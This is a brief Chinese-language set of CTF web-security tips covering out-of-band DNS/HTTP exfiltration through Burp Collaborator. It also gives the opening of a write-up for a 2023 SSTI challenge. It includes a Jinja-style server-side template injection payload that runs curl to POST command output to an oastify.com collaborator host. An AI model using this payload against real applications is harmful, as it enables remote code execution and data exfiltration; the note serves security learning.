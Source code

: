 

## ✨一些小 tips

### DNS、HTTP 外带
- **BurpSuite** -> Collaborator
> 支持的协议有：HTTP、SMTP、DNS

SSTI 利用示例
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("curl -X POST -d \"$(echo 'Hello, world!')\" le356fozyepn25q7d27mpfhdn4tvhv5k.oastify.com").read() }}
```
![](image.png)

#### 极客大挑战2023-web-klf_ssti
使用 `{{` 有报错，无论什么语句都显示 klf别想
![](image-4.png)